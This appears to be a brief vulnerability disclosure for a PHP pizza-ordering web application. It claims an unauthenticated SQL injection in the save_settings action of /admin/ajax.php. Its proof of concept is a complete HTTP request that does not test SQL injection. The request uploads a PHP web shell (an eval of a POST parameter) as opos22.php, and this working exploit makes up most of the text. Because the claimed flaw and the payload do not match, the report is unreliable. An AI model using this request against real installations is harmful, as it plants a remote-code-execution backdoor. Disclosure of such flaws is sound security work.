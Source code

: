 

The Online Pizza Ordering System has an SQL injection vulnerability, which can be exploited by an attacker to steal information or corrupt a database without authentication.



Source code address：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html



The vulnerability is located in save_settings in the /admin/ajax.php file, and you can see in the code snippet that the parameters passed in are directly concatenated with the SQL statement.

![image-20250326232545624](images/image-20250326232545624.png)





Vulnerability verification：

```
POST /php-opos/admin/ajax.php?action=save_settings HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------145383211625062
Content-Length: 698

-----------------------------145383211625062
Content-Disposition: form-data; name="name"

Online Pizza Ordering System - PHP
-----------------------------145383211625062
Content-Disposition: form-data; name="email"

info@abcpizaa.com
-----------------------------145383211625062
Content-Disposition: form-data; name="contact"

0912654789
-----------------------------145383211625062
Content-Disposition: form-data; name="about"

11
            
-----------------------------145383211625062
Content-Disposition: form-data; name="img"; filename="opos22.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass1"]);

-----------------------------145383211625062--

```

 ![image-20250326232521513](images/image-20250326232521513.png)




































